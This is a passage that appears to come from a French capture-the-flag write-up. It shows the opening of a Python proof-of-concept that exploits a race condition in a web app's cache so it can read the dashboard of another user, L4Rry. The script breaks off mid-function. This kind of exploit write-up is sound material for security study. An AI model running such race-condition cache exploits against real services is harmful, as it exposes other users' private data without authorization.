 
## Étape 4 - Exploitation technique (PoC)

### 4.1 - PoC Python

```py
#!/usr/bin/env python3
"""
Exploit pour récupérer les données de L4Rry via race condition
"""
import requests
import threading
import time
import re
import json
import argparse
from queue import Queue

# Args
parser = argparse.ArgumentParser()
parser.add_argument('--base', required=True, help='Base URL (e.g. http://host:port)')
parser.add_argument('--key', required=True, help='Cache key to target (e.g. view//dashboard/L4Rry)')
parser.add_argument('--ttl', type=int, default=5, help='TTL for posted message')
parser.add_argument('--delay', type=float, default=0.16, help='Delay before GET (seconds) to hit race window')
parser.add_argument('--tries', type=int, default=50, help='Number of attempts')
parser.add_argument('--verbose', action='store_true')
args = parser.parse_args()

BASE = args.base.rstrip('/')
CACHE_KEY = args.key
TTL = args.ttl
DELAY = args.delay
TRIES = args.tries
VERBOSE = args.verbose

# Session avec cookies de test
session = requests.Session()
result_q = Queue()
stop_event = threading.Event()

def do_post():
    """Send the POST that will create the message (and start sleep on server)."""
    try:
        payload = {'title': CACHE_KEY, 'message': 'X', 'ttl': TTL}
        r = session.post(BASE + '/', json=payload, timeout=5)
        if VERBOSE:
            print(f"[POST] status={r.status_code} len={len(r.content)}")
    except Exception as e:
        if VERBOSE:
            print(f"[POST] error: {e}")

def trigger_larry_dashboard():
    """Trigger L4Rry dashboard access to populate cache with his data"""
    try:
        # Accéder au dashboard de L4Rry pour déclencher le cache
        r = session.get(BASE + '/dashboard/L4Rry', timeout=5)
        if VERBOSE:
            print(f"[LARRY_DASHBOARD] status={r.status_code} len={len(r.content)}")
            if r.status_code == 200 and len(r.content) > 1000:
                print(f"[LARRY_DASHBOARD] Content preview: {r.text[:200]}...")
    except Exception as e:
```